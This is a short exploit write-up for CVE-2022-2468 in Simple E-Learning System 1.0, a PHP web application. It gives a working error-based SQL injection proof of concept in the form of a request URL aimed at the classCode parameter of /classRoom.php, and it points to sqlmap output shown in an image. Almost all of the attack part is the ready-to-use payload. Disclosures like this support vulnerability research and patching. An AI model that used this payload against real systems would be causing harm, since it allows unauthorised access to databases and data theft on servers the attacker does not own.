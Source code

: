 ### Exploit Title: Simple E-Learning System - Multiple SQL injections
### Date: 2022-07/19
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php-simple-e-learning-system-source-code
### Version: 1.0
### Tested on: windows10 + phpstudy


# 1./classRoom.php(CVE-2022-2468)
/classRoom.php SQL injection exists for parameter classCode

### Sample request POC #1

```
http://[ip:port]/classRoom.php?classCode=1'||(SELECT 0x6770715a WHERE 8795=8795 AND (SELECT 8342 FROM(SELECT COUNT(*),CONCAT(0x7171786b71,(SELECT (ELT(8342=8342,1))),0x717a7a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16582996517475.png "Simple E-Learning System")


